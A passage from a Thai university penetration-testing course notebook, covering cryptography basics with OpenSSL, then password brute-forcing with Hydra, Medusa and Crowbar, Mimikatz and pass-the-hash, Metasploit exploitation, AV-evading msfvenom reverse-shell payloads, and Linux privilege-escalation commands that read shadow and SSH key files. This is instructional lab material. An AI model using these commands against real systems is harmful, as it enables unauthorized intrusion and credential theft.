    - Morse Code เป็นรหัสสัญลักษณ์ที่ใช้ในการแปลงข้อความเป็นเสียงหรือสัญลักษณ์ ซึ่งแต่ละตัวอักษรหรือตัวเลข จะมีสัญลักษณ์ของตัวเอง เช่นตัวอักษร 'A' จะเป็น ".-" และ 'Z' จะเป็น "--.." ซึ่งใช้กันในการส่งข้อความผ่านเสียงในยุคก่อนปัจจุบัน
    - Braille เป็นรหัสสัญลักษณ์ที่ใช้ในการแปลงข้อความสำหรับคนตาบอด โดยจะใช้สัญลักษณ์ของ 6 จุดที่ตั้งอยู่บนกระดาษ แต่ละตัวอักษรหรือตัวเลข จะมีสัญลักษณ์ของตัวเอง เช่น ตัว "A" จะเป็น "⠁" และ "Z" จะเป็น "⠻" ใช้สำหรับการเขียนอ่านและการเรียนรู้สำหรับคนตาบอด
    - [Brainfuck](https://www.dcode.fr/langage-brainfuck)
    - [Affine Cipher](https://www.dcode.fr/affine-cipher)
    - [Malbolge](http://malbolge.doleczek.pl/)

## Lab
- นักศึกษากลุ่มที่ 3 รายงานผลการ Pentest พร้อมอธิบาย Command อย่างละเอียด กลุ่มอื่น ๆ ทำตามและส่ง Flag 
--- 

## Week 9@21 Jan 2023
## Lec
- Symmetric Key Cryptography หรือการเข้ารหัสด้วยกุญแจคู่ เป็นวิธีการเข้ารหัสข้อมูลโดยใช้กุญแจเดียวกันสำหรับการเข้ารหัสและถอดรหัส ซึ่งกุญแจนี้ต้องแชร์ให้กับผู้ที่ต้องการใช้ข้อมูลที่เข้ารหัสไว้ ซึ่งจะมีปัญหาในการควบคุมการแชร์และการเข้าถึงของข้อมูล แต่จะมีประสิทธิภาพในการเข้ารหัสและถอดรหัสเป็นอย่างดี
    - Process
      - Paintext + KEY > Ciphertext 
      - Ciphertext + KEY = Paintext
    - RC2 RC2 (Rivest Cipher 2) เป็นการเข้ารหัสข้อมูลที่ใช้กุญแจคู่แบบกระบวนการเข้ารหัสประเภท block cipher ซึ่งเป็นการเข้ารหัสแบบกำหนดความยาวของข้อมูลที่เข้ารหัสไว้ ซึ่งสามารถใช้ความยาวของกุญแจได้ตั้งแต่ 40 ถึง 128 bit ซึ่งถูกใช้ในการเข้ารหัสข้อมูล ในด้านความปลอดภัย การเข้าถึงข้อมูลด้วย RC2 ได้ถูกตรวจสอบและพบว่ามีปัญหาด้านความปลอดภัยเมื่อใช้กุญแจความยาวน้อย และได้แจ้งเตือนให้ใช้กุญแจความยาวมากกว่า 80 bit เพื่อให้ป้องกันปัญหาดังกล่าว ซึ่งในปัจจุบันการใช้ RC2 ได้ถูกลดลง เนื่องจากปัญหาด้านความปลอดภัยที่เป็นปัญหาในการใช้งาน และได้แนะนำให้ใช้การเข้ารหัสที่เป็นปัจจุบันและมีปัญหาความปลอดภัยเล็กน้อยกว่าเช่น AES หรือ RSA เป็นต้น
    - RC4 RC4 (Rivest Cipher 4) เป็นการเข้ารหัสข้อมูลที่ใช้กุญแจคู่แบบกระบวนการเข้ารหัสประเภท stream cipher ซึ่งเป็นการเข้ารหัสข้อมูลแบบกระบวนการต่อเนื่อง ซึ่งสามารถใช้ความยาวของกุญแจได้ตั้งแต่ 40 ถึง 2048 bit ซึ่งเป็นการเข้ารหัสที่เป็นที่นิยมในอดีต แต่ในปัจจุบันได้พบปัญหาด้านความปลอดภัยของ RC4 เนื่องจากวิธีการทำงานที่เป็นตัวแทนของกุญแจทำให้เป็นไปได้ในการโจมตี จึงถูกแนะนำให้ใช้เทคโนโลยีการเข้ารหัสที่เป็นปัจจุบันและมีปัญหาความปลอดภัยเล็กน้อยกว่า เช่น AES หรือ RSA เป็นต้น โดยปัจจุบันการใช้ RC4 ได้ถูกหลีกเลี่ยงในการใช้งานเนื่องจากปัญหาความปลอดภัย และมีการแจ้งเตือนจากหน่วยงานต่างๆ เกี่ยวกับปัญหาความปลอดภัยของ RC4 และแนะนำให้ใช้เทคโนโลยีการเข้ารหัสที่เป็นปัจจุบันและมีความปลอดภัยสูงกว่า
    - XOR XOR Encryption (Exclusive Or Encryption) เป็นการเข้ารหัสข้อมูล โดยใช้การใช้การเปรียบเทียบของ bit กับกุญแจ ซึ่งจะทำการเข้ารหัสข้อมูลโดยใช้วิธีการ XOR (Exclusive OR) ของข้อมูลกับกุญแจ ซึ่งจะได้ข้อมูลที่เข้ารหัสและสามารถใช้กุญแจเดียวกันในการเข้าถึงข้อมูลได้ ซึ่งเป็นการเข้ารหัสที่ไม่มีความปลอดภัย เนื่องจากวิธีการเข้ารหัสที่ใช้ XOR จะสามารถถอดรหัสได้ง่าย โดยใช้ XOR อีกครั้งกับข้อมูลเข้ารหัส และการใช้กุญแจเดียวกันในการเข้ารหัสและถอดรหัส จึงไม่เหมาะสำหรับใช้ในการเข้ารหัสข้อมูล
    - Blowfish เป็นการเข้ารหัสข้อมูลประเภท symmetric-key block cipher ซึ่งถูกพัฒนาโดย Bruce Schneier ในปี 1993 ซึ่งใช้กุญแจเป็นความยาวตั้งแต่ 32-448 bit และสามารถใช้ได้กับข้อมูลที่มีขนาดใหญ่ได้ ซึ่งเป็นการเข้ารหัสที่ได้รับความนิยมในปัจจุบัน โดยเฉพาะในการใช้งานในการเข้ารหัสแบบ software และมีปัญหาความปลอดภัยที่เล็กน้อย Blowfish ใช้วิธีการเข้ารหัสคู่ของ block cipher โดยการแปลงข้อมูลจาก plaintext เป็น ciphertext โดยใช้กุญแจและการใช้วิธีการคีย์การเข้ารหัสซ้อน (key schedule) โดยใช้การเปลี่ยนแปลงของ s-box และ p-box ซึ่งเป็นตัวกำหนดความเข้ารหัสในแต่ละรอบ ซึ่งจะให้ความปลอดภัยสูง แต่อาจไม่สามารถใช้ได้ในการเข้ารหัสข้อมูลขนาดใหญ่
    - Data Encryption Standard (DES) เป็นระบบเข้ารหัสข้อมูลแบบ symmetric-key encryption ซึ่งมีการใช้งานในระดับอุตสาหกรรม และได้รับการพัฒนาโดย National Institute of Standards and Technology (NIST) โดยใช้วิธีการเข้ารหัสข้อมูลที่ใช้ Feistel Network และใช้ key ขนาด 56 bit ซึ่งถูกใช้ในการเข้ารหัสข้อมูลต่างๆ เช่น ข้อมูลทางการเงิน และข้อมูลส่วนตัว 
    - Advanced Encryption Standard (AES)  เป็นระบบเข้ารหัสข้อมูลที่ได้รับการพัฒนาโดย National Institute of Standards and Technology (NIST) และได้รับการรับรองในระดับอุตสาหกรรม ซึ่งเป็นระบบเข้ารหัสข้อมูลแบบ symmetric-key encryption โดยใช้วิธีการเข้ารหัสข้อมูลที่ใช้ Rijndael Algorithm และมีขนาด key ที่ใช้ได้ 128, 192 และ 256 bit ซึ่งถูกใช้ในการเข้ารหัสข้อมูลต่างๆ เช่น ข้อมูลทางการเงิน และข้อมูลส่วนตัว ซึ่ง AES ถูกใช้งานแพร่หลายในปัจจุบัน เพราะความปลอดภัยที่ให้มากกว่า DES

- OpenSSL Toolkit
  ```bash
  # BASE64 Encode and Decode via OpenSSL
  echo 'Cryptography' | openssl enc -base64
  echo 'Cryptography' | openssl enc -e -base64
  echo 'Q3J5cHRvZ3JhcGh5Cg==' | openssl enc -d -base64

  # DES Encrypt/Decrypt
  # DES Ex 1 
  echo 'Cryptography' | openssl enc -des -base64 -K e0e0e0e0f1f1f1f1 -iv e0e0e0e0abababab
  echo 'NYC/82QHAy44n5n3ti9WBA==' | openssl enc -d -des -base64 -K e0e0e0e0f1f1f1f1 -iv e0e0e0e0abababab
  
  # DES Ex 2
  echo 'Cryptography' | openssl enc -des -base64 -k 'testdata'
  echo 'U2FsdGVkX1+OK9Bo/SqWGgy+BZG6gfU4enKJCL6HqHQ=' | openssl enc -d -des -base64 -k 'testdata'

  # DES Ex 3 
  echo 'Cryptography' | openssl enc -des -base64 -k 'testdata' -nosalt
  echo 'TnIGcH/Cob11I37QAe6RAQ==' | openssl enc -d -des -base64 -k 'testdata' -nosalt

  # DES Ex 4
  echo 'Cryptography' | openssl enc -des -base64 -k 'testdata' -pbkdf2
  echo 'U2FsdGVkX1/UOh4++KJcbhnQN/FYYiqbWQjQaBuSJNI=' | openssl enc -d -des -base64 -k 'testdata' -pbkdf2

  # AES-128 Encrypt/Decrypt
  echo 'Cryptography' | openssl enc -aes128 -base64 -k 'testdata' -pbkdf2
  echo 'U2FsdGVkX1/8sGvTYMz/lK8XPLJ4lw3rLDTrmT2U/fI=' | openssl enc -d -aes128 -base64 -k 'testdata' -pbkdf2

  # Blowfish Encrypt/Decrypt
  echo 'Cryptography' | openssl enc -bf -base64 -k 'testdata' -pbkdf2
  echo 'U2FsdGVkX1+QEJWo8tFlPlmihsslP2HduPHTbLRMyYo=' | openssl enc -d -bf -base64 -k 'testdata' -pbkdf2

  # RC4 Encrypt/Decrypt
  echo 'Cryptography' | openssl enc -rc4 -base64 -k 'pass' -pbkdf2 -nosalt
  echo 'K2zGLxryS/cNaSuaXg==' | openssl enc -d -rc4 -base64 -k 'pass' -pbkdf2 -nosalt

  # CAST Encrypt/Decrypt
  echo 'Cryptography' | openssl enc -cast -base64 -k 'hello' -pbkdf2
  echo 'U2FsdGVkX1/6nzZM4IEoiSX0rZz0neI43r5lbb9rBs4=' | openssl enc -d -cast -base64 -k 'hello' -pbkdf2
  ```

- Asymmetric Key Cryptography Public-key cryptography, or asymmetric-key
cryptography, is a cryptographic system that uses pairs of keys: (Use two keys and
Two-way methods)
  - public keys, which may be disseminated widely
  - private keys, which are known only to the owner
  - Process
    - Plaintext + Public Key = Ciphertext
    - Ciphertext + Private key = Plaintext
  - Asymmetric Key Algorithms
    - ElGamal is an asymmetric key encryption algorithm which is based on the Diffie–Hellman key exchange
    - [RSA](https://th.wikipedia.org/wiki/%E0%B8%AD%E0%B8%B2%E0%B8%A3%E0%B9%8C%E0%B9%80%E0%B8%AD%E0%B8%AA%E0%B9%80%E0%B8%AD) (Rivest–Shamir–Adleman) is the first public-key cryptosystems and is widely used for secure data transmission, the encryption key is public and distinct from the decryption key which is kept secret (private)
    - Elliptic Curve Cryptography (ECC) provides similar functionality to RSA and implements in smaller devices like cell phones
    - Digital Signature Algorithm (DSA) was developed by the United States government for digital signatures
  
  - Message Digest A message digest is a cryptographic hash function containing a string of digits created by a one-way hashing formula. Message digests are designed to protect the integrity of a piece of data or media to detect changes and alterations to any part of a message
    - MD5 is a widely used hash function producing a 128-bit hash value
    - MD6  is a cryptographic hash function producing 1-bit to 512 bits hash value
    - SHA-1 (Secure Hash Algorithm 1) is a cryptographic hash function which takes an input and produces a 160-bit (20-byte) hash value
    - SHA-2 (Secure Hash Algorithm 2) is a set of cryptographic hash functions consists of functions in 224, 256, 384 or 512 bits: SHA-224, SHA-256, SHA-384, SHA-512
    - HMAC (Hash-based Message Authentication Code) is a specific type of message authentication code (MAC) involving a hash function with a secret cryptographic key
    - Bcrypt is a password hashing function designed by Niels Provos and David Mazières, based on the Blowfish cipher to protect against rainbow table attacks
 

- นักศึกษากลุ่มที่ 4 รายงานผลการ Pentest พร้อมอธิบาย Command อย่างละเอียด กลุ่มอื่น ๆ ทำตามและส่ง Flag 
--- 
## Week 9@22 Jan 2023
- Password Attack

```bash
# wordlist rockyou
sudo gunzip /usr/share/wordlists/rockyou.txt.gz

# medusa attack httpaccess-protected URL (-m DIR:/admin)
# Medusa, initiated against an htaccess protected web directory
medusa -h $ip -u admin -P password-file.txt -M http -m DIR:/admin -T 10
medusa -h 192.168.10.10 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin

# Crowbar is a bruteforce tool which support OpenVPN, RDP, SSH and VNC
sudo apt install crowbar 
crowbar --help
# To invoke crowbar, we will specify the protocol (-b), the target server (-s), a username (-u), a wordlist (-C), and the number of threads (-n) 
crowbar -b rdp -s 192.168.10.10/32 -u admin -C ~/password-file.txt -n 2

# Hydra brute force against SNMP
hydra -P password-file.txt -v $ip snmp

# Hydra FTP known user and rockyou password list
hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp

# Hydra SSH using list of users and passwords
hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh

# Hydra SSH using a known password and a username list
hydra -v -V -u -L users.txt -p "<known password>" -t 1 -u $ip ssh

# Hydra SSH Against Known username on port 22
hydra $ip -s 22 ssh -l <user> -P big_wordlist.txt

# Hydra POP3 Brute Force
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V

# Hydra SMTP Brute Force
hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V

# Hydra attack http get 401 login with a dictionary
hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin

# Hydra attack Windows Remote Desktop with rockyou
hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip

# Hydra brute force SMB user with rockyou:
hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb

# Hydra brute force a Wordpress admin login
hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'


# hashid indentification hash funtion
hashid 5f4dcc3b5aa765d61d8327deb882cf99
hashid b109f3bbbc244eb82441917ed06d618b9008dd09b3befd1b5e07394c706a8bb980b1d7785e5976ec049b46df5f1326af5a2ea6d103fd07c95385ffab0cacbc86

#Office password cracking
python ./office2john.py ./filename.docx
```

- Windows Minikatz 
  - Minikatz x86 dowload [link](https://github.com/ParrotSec/mimikatz)
```bash
# run Minikatz as admin
privilege::debug
token::elevate
lsadump::sam
# หรือ 
Mimikatz.exe “privilege::debug” “sekurlsa::pth /user:[username] /ntlm:[ntlm hash] /domain:[domainname]” “exit”


# ตรวจสอบข้อมูล Users และ Password 
# User: unicorn
# Hash NTLM : e19ccf75ee54e86b06a5907af13cef42
# Pass the hash 
export SMBHASH=aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42
pth-winexe -U unicorn% //$ip cmd
pth-winexe -U unicorn //192.168.56.101 cmd

pth-winexe -U unicorn%aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42 //192.168.56.101 cmd

# IF pth-winexe show ERROR: CreateService failed run command on Windows Administrator 
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\system" /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f

# กรณีใช้ MSF console
use exploit/windows/smb/psexec
set SMBPass aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42
set lhost 192.168.10.10
set rhosts 192.168.10.20
run

# Meterpreter Kiwi
meterpreter> load kiwi
meterpreter> help kiwi
meterpreter> creds_all
```

- การ Crack hash 
```bash
cat hash.txt
# WDAGUtilityAccount:0c509cca8bcd12a26acf0d1e508cb028
# Offsec:2892d26cdf84d7a70e2eb3b9f05c425e
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT

```

- นักศึกษากลุ่มที่ 5 รายงานผลการ Pentest พร้อมอธิบาย Command อย่างละเอียด กลุ่มอื่น ๆ ทำตามและส่ง Flag 
  
--- 

## Week 10@28 Jan 2023
- Metasploit Framework เป็นโปรแกรม open source ที่ใช้ในการสำรวจและโจมตีเครื่องคอมพิวเตอร์ โดยมีคุณสมบัติต่างๆ รวมถึงการเข้ารหัสและการโจมตีแบบอัตโนมัติ ซึ่งสามารถใช้ในการตรวจสอบความแข็งแกร่งของระบบและการแก้ปัญหาเรื่องความปลอดภัยได้ เป็นโปรแกรมที่สามารถทำงานในรูปแบบ command-line และ graphical user interface (GUI) ซึ่งสามารถใช้ในการตรวจสอบความแข็งแกร่งของระบบเครือข่ายและเครื่องคอมพิวเตอร์ โดยใช้ข้อมูลจากเครื่องตัวเองและฐานข้อมูลของระบบอื่น ๆ อีกด้วย อีกทั้ง Metasploit Framework มีโมดูลหลายตัวที่ใช้ในการโจมตีแบบอัตโนมัติ โดยจะใช้ข้อมูลจากการสำรวจเพื่อเป็นพื้นฐานในการโจมตี ซึ่งสามารถใช้งานได้หลากหลายรูปแบบ เช่น การโจมตีตามโปรโตคอล การโจมตีตามช่องโหว่ และการโจมตีโดยใช้ payload ต่าง ๆ
- สำหรับกาติดตั้ง Metasploit Framework นั้นจำเป็นจะต้องเปิดใช้งาน Services ของ Postgresql และมีวิธีการติดตั้งดังต่อไปนี้ 

```bash
sudo systemctl start postgresql 
sudo systemctl enable postgresql 

sudo msfdb init 
sudo apt update 
sudo apt install metasploit-framework
sudo msfconsole 
# หรือสามารถใช้ Options -q เพื่อยกเลิกการแสดง Banner ได้ ดังนี้
sudo msfconsole -q 
```
สำหรับ Promp "msf6>" นั้นเป็น Console อยู่ภายใต้ Metasploit framework โดยมีคำสั่งที่สามารถนำไปใช้ได้ดังนี้

```bash
# all command is under promp "msf6 >" 

# MSF สามารถตรวจสอบข้อมูลต่าง ๆ ได้ด้วยคำสั่ง "Show"
show -h 
# บน MSF นั้นจะใช้ Command "Use" สำหรับเรียกใช้งาน Module ที่สนใจ
use auxiliary/sanner/portscan/tcp
back 

# เราสามารถใช้ Command "back" หรือ "Previous" สำหรับย้อนกลับไป Modules ก่อนหน้า
use auxiliary/scanner/portscan/tcp
useauxiliary/scanner/portscan/syn
previous

# เราสามารถใช้คำสั่ง "show options" สำหรับตรวจสอบพารามิเตอร์ ภายในโมดูลที่เราจะใช้ได้
show options 

# เมื่อเราตรวจสอบพารามิเตอร์ต่าง ๆ แล้ว เราสามารถใช้คำสั่ง "set" หรือ "unset" สำหรับการแก้ไขข้อมูลพารามิเตอร์ภายใต้โมดูลที่เรากำลังทำงานหรือสามารถใช้ "setg" หรือ "unsetg" สำหรับตั้งค่าตัวแปรในรูปแบบ Global Variable 
set RHOSTS 192.168.10.10
run


# Database Mapping 
# หากมีการเปิดใช้งาน Postgresql Services แล้ว Metasploit จะสามารถตรวจสอบข้อมูลเพิ่มเติมด้วยคำสั่ง services ได้ดังต่อไปนี้
services
services -h 

# เราสามารถใช้ "db_nmap" สำหรับเก็บข้อมูลการ Scan จาก Nmap บน Metasploits ได้
db_nmap 
db_nmap 192.168.10.10 -A -Pn 

# เราสามารถตรวจสอบข้อมูล Host ที่ตรวจพบได้ด้วยคำสั่ง "hosts"
hosts
services -p 445

# เราสามารถแยกข้อมูลออกจากกันในแต่ละคนได้โดยการใช้งาน "workspace" ได้ดังนี้
workspace
workspace test
```
- โมดูลบน Metasploit มีดังนี้
  - Auxiliary module ใน Metasploit Framework เป็นโมดูลที่ถูกสร้างขึ้นเพื่อให้ผู้ใช้งานเข้าถึงฟังก์ชันต่างๆ เช่น การสแกนหาช่องโหว่, การตรวจสอบความเป็นไปได้ของโปรโตคอล, การจับคู่ข้อมูลระหว่างเครื่อง ฯลฯ ซึ่งจะช่วยให้ผู้ใช้งานได้ทำการวิเคราะห์และประเมินความเสี่ยงได้อย่างละเอียดและมีประสิทธิภาพ

```bash
show auxiliary
search -h 
# เราสามารถใช้ "search" สำหรับกรองข้อมูลที่เราสนใจ เช่น app, type, platform ฯลฯ
search type:auxiliary name:smb 

# เราสามารถใช้คำสั่ง "info" สำหรับตรวจสอบรายละเอียดของโมดูลที่จะใช้งานได้
use scanner/smb/smb2
info
# เราสามารถนำข้อมูลจากฐานข้อมูลที่มีการ Scan ไว้ก่อนหน้า มาใส่ในพารามิเตอร์ของโมดูลได้ 
services -p 445 --rhosts 
run 

# การค้นหา RDP 
ีuse scanner/rdp/rdp_scanner
show options 
set rhosts 192.168.10.10
run
```
 

- นักศึกษากลุ่มที่ 6 รายงานผลการ Pentest พร้อมอธิบาย Command อย่างละเอียด กลุ่มอื่น ๆ ทำตามและส่ง Flag 

--- 

## Week 11@4 Feb 2023

- Exploit Modules เป็นโมดูลที่ใช้ในการเข้าถึงช่องโหว่ต่างๆ ในเครื่องเป้าหมาย ซึ่งประกอบด้วยโค้ดและวิธีการเข้าถึงช่องโหว่ต่างๆ ซึ่งจะส่ง payload ไปยังเครื่องเป้าหมาย โดยส่วนใหญ่ exploit module จะถูกใช้ร่วมกับ payload module เพื่อส่ง payload ไปยังเป้าหมาย เพื่อดำเนินการควบคุมต่อไป
```bash
# ค้นหาช่องโหว่ที่จะโจมตี 
search synbreeze
# ตรวจสอบข้อมูลของโมดูลที่จะใช้โจมตี 
info exploit/windows/http/stnbreeze_bof
# ตรวจสอบ Payloads ที่จะใช้สำหรับโจมตี
show payloads 
# ตั้งค่า Payload ที่จะใช้สำหรับโจมตี
set payload windows/shell_reverse_tcp
# ตรวจสอบข้อมูลพารามิเตอร์ที่จำเป็น
show options 
# ตั้งค่าพารามิเตอร์ Local hosts หรือเครื่องของผู้โจมตี 
set lhost 192.168.1.10
# ตั้งค่าพารามิเตอร์ Remote hosts หรือเครื่องเป้าหมาย
set rhost 192.168.1.20
# ทำการตรวจสอบก่อนโจมตี
check 
# เริ่มต้นการโจมตี
exploit
```
 - Metasploit Payloads 
```bash
search meterpreter type:payload
set payload windows/meterpreter/reverse_http
set LHOST 192.168.10.10
show options 
exploit

# Meterpreter 
# shell "meterpreter > " 
help
sysinfo
getuid

# Upload netcat 
upload /usr/share/windows-resources/binaries/nc.exe c:\\Users\\Offsec

# Download file 
download c:\\windows\\system32\\calc.exe /tmp/calc.exe

# Run Shell via Meterpreter
shell
exit
```

- การสร้าง Excutable Payloads ด้วย msfvenom

```bash
# Shell 
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.10.10 LPORT=443 -f exe -o shell_reverse.exe
file shell_reverse.exe

# The shellcode embedded in the PE file can be encoded using any of the many MSF encoders. Historically, this helped evade antivirus, though this is no longer true with modern AV engines. The encoding is configured with -e to specify the encoder type and -i to set the desired number of encoding iterations. We can use multiple encoding iterations to further obfuscate the binary, which could effectively evade rudimentary signature detection. 
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.10.10 LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe

# Another useful feature of Metasploit is the ability to inject a payload into an existing PE file, which may further reduce the chances of AV detection. The injection is done with the -x flag, specifying the file to inject into.
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.10.10 LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-resources/binaries/plink.exe -o shell_reverse_msf_encoded_embeded.exe 

# อีกทั้งเราสามารถสร้างผ่าน msfconsol ได้ดังต่อไปนี้
# promp "msf6 >"
use payload/windows/shell_reverse_tcp
set LHOST 192.168.10.10
set RHOST 192.168.10.20 
generate -f -exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-resources/binaries/plink.exe -o shell_reverse_msf_encoded_embeded.exe 
```
- Metasploit Exploit Multi Handler เป็นโมดูลใน Metasploit Framework ที่ใช้ในการรับ payload จาก exploit หรือรับ payload ที่ส่งมาจากตัวเครื่องเป้าหมายเพื่อใช้ในการ post-exploitation ซึ่งจะช่วยให้สามารถติดต่อกลับมายังเครื่องเป้าหมายได้ โดยสามารถรับ payload จากหลายโปรโตคอลได้ เช่น TCP, HTTP, HTTPS และ HTTPS อื่นๆ ซึ่งสามารถปรับแต่งค่าต่างๆ ได้ เช่น ตั้งค่า payload และตั้งค่าการรับส่งข้อมูล ดังนั้น multi/handler จึงเป็นโมดูลที่สำคัญในการใช้งาน Metasploit Framework
```bash 
use multi/handler
set payload windows/meterpreter/reverse_https
run 
```

- นักศึกษากลุ่มที่ 8 รายงานผลการ Pentest พร้อมอธิบาย Command อย่างละเอียด กลุ่มอื่น ๆ ทำตามและส่ง Flag (กลุ่ม 7 ไม่มารายงาน)
  
--- 

## Week 12@11 Feb 2023
## Lec
- Privilege Escalation
  - Manual Enumeration command
    - Windows
      ```bash
      whoami
      net user
      systeminfo
      systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
      ```
  - [LOLBAS for Windows](https://lolbas-project.github.io/)
  - Windows: Weak service permissions, Unquoted service paths, outdated binaries, scheduled tasks, custom functionality implemented through binaries, known-binary exploits, stored passwords, pass-the-hash.
    - Linux
      - Capabilities
      - SUIDs/GUIDs
      - cronjobs
      - modifiable binaries running as root
      - out-of-date binaries
      - known-binary exploits
      - history files.
      - [GTFOBins for Linux](https://gtfobins.github.io/)
      - Common Shell usage after reverse shell
  
      ```bash
      ## Common Shell Escape Sequences: ==	
      ## If commands are limited, you break out of the "jail" shell?	
      python -c 'import pty;pty.spawn("/bin/bash")'	
      echo os.system('/bin/bash')	
      /bin/sh -i	
        
      ## Common Shell Escape Sequences:	
      :!bash	vi, vim
      :set shell=/bin/bash:shell	vi, vim
      !bash	man, more, less
      find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' ; 	find
      awk 'BEGIN {system("/bin/bash")}'	awk
      --interactive	nmap
      echo "os.execute('/bin/sh')" > exploit.nse	nmap
      sudo nmap --script=exploit.nse	nmap
      perl -e 'exec "/bin/bash";'	Perl
      ``` 
      - Technique
      ```bash
      ## What's the distribution type? What version?	
      cat /etc/issue	
      cat /etc/*-release	
      cat /etc/lsb-release	
      cat /etc/redhat-release	
   	
      uname -n   // System hostname	
      hostname // As above
      ## What's the Kernel version? Is it 64-bit?	
      cat /proc/version   	
      uname -a	 
      uname -r  // Kernel release	
      uname -mrs 	
      rpm -q kernel 	
      dmesg | grep Linux	
      ls /boot | grep vmlinuz-
      cat /proc/cpuinfo   // CPU information

      ## What can be learnt from the environmental variables? 
      cat /etc/profile	
      cat /etc/bashrc	
      cat ~/.bash_profile	
      cat ~/.bashrc	
      cat ~/.bash_logout	
      env	
      set	

      ## Is there a printer? 
      lpstat -a	

      ## Users & Groups: 
      cat /etc/passwd  	
      cat /etc/group   # List all groups on the system	
      cat /etc/shadow  # Show user hashes – Privileged command	
      grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1}' #List all super user accounts	
      finger   #Users currently logged in	
      pinky   # As above	
      users  # As above	
      who -a # As above	
      w   # Who is currently logged in and what they’re doing	
      last   # Listing of last logged on users	
      lastlog   # Information on when all users last logged in	
      lastlog --user root # Information on when the specified user last logged in

      # User & Privilege Information: 
      whoami 	
      id 	
      cat /etc/sudoers  # Who’s allowed to do what as root – Privileged command	
      sudo -l  # Can the current user perform anything as root	
      cat /etc/passwd | cut -d:    # List of users	
      grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1}'   # List of super users	
      awk -F: '($3 == "0") {print}' /etc/passwd   # List of super users	
      cat /etc/sudoers	

      ## What has the user being doing? Is there any password in plain text? What have they been edting?	
      cat ~/.bash_history	
      cat ~/.nano_history	
      cat ~/.atftp_history	
      cat ~/.mysql_history 	
      cat ~/.php_history	

      ## What user information can be found? 	
      cat ~/.bashrc	
      cat ~/.profile	
      cat /var/mail/root	
      cat /var/spool/mail/root

      ## Which service(s) are been running by root? Of these services, which are vulnerable - it's worth a double check!	
      ps aux | grep root	
      ps -ef | grep root

      ## What applications are installed? What version are they? Are they currently running?	
      ls -alh /usr/bin/	
      ls -alh /sbin/	
      dpkg -l	
      rpm -qa	
      ls -alh /var/cache/apt/archivesO	
      ls -alh /var/cache/yum/ 	

      ## Environmental Information: ==	
      env  # Display environmental variables	
      set  # As above	
      echo $PATH  # Path information	
      history # Displays  command history of current user	
      cat /etc/profile # Display default system variables

      ## Any of the service(s) settings misconfigured? Are any (vulnerable) plugins attached? 
      cat /etc/syslog.conf 	
      cat /etc/chttp.conf	
      cat /etc/lighttpd.conf	
      cat /etc/cups/cupsd.conf 	
      cat /etc/inetd.conf 	
      cat /etc/apache2/apache2.conf	
      cat /etc/my.conf	
      cat /etc/httpd/conf/httpd.conf	
      cat /opt/lampp/etc/httpd.conf	
      ls -aRl /etc/ | awk '$1 ~ /^.*r.*/'
      ps aux | grep root  #View services running as root
      cat /etc/inetd.conf  # List services managed by inetd	
      cat /etc/xinetd.conf # As above for xinetd	

      ## Installed programs 
      dpkg -l # Installed packages (Debian)	
      rpm -qa # Installed packages (Red Hat)	
      sudo -V # Sudo version – does an exploit exist?	
      httpd -v # Apache version	
      apache2 -v # As above	
      apache2ctl (or apachectl) -M # List loaded Apache modules	
      mysql --version # Installed MYSQL version details	
      perl -v #Installed Perl version details	
      java -version # Installed Java version details	
      python --version # Installed Python version details	
      ruby -v # Installed Ruby version details	
      find / -name %program_name% 2>/dev/null #(i.e. nc, netcat, wget, nmap etc) Locate ‘useful’ programs (netcat, wget etc)	
      which %program_name% # (i.e. nc, netcat, wget, nmap etc) As above	

      ## SH info ? 
      ## Can private-key information be found? 	
      cat ~/.ssh/authorized_keys	
      cat ~/.ssh/identity.pub	
      cat ~/.ssh/identity	
      cat ~/.ssh/id_rsa.pub	
      cat ~/.ssh/id_rsa	
      cat ~/.ssh/id_dsa.pub	
      cat ~/.ssh/id_dsa	
      cat /etc/ssh/ssh_config	
      cat /etc/ssh/sshd_config	
      cat /etc/ssh/ssh_host_dsa_key.pub	
      cat /etc/ssh/ssh_host_dsa_key	
      cat /etc/ssh/ssh_host_rsa_key.pub	
      cat /etc/ssh/ssh_host_rsa_key	
      cat /etc/ssh/ssh_host_key.pub	
      cat /etc/ssh/ssh_host_key	

      ## Jobs/Tasks:	
      crontab -l -u %username% # Display scheduled jobs for the specified user – Privileged command	
      ls -la /etc/cron* # Scheduled jobs overview (hourly, daily, monthly etc)	
      ls -aRl /etc/cron* | awk '$1 ~ /w.$/' 2>/dev/null # What can ‘others’ write in /etc/cron* directories	
      ls -alh /var/spool/cron	
      ls -al /etc/ | grep cron	
      cat /etc/cron*	
      cat /etc/at.allow	
      cat /etc/at.deny	
      cat /etc/cron.allow	
      cat /etc/cron.deny	
      cat /etc/crontab	
      ls -alh  /etc/cron.daily	
      ls -alh  /etc/cron.weekly	
      ls -alh  /etc/cron.monthly	
      cat /etc/anacrontab	
      cat /var/spool/cron/crontabs/root

      ## Interesting Files: 
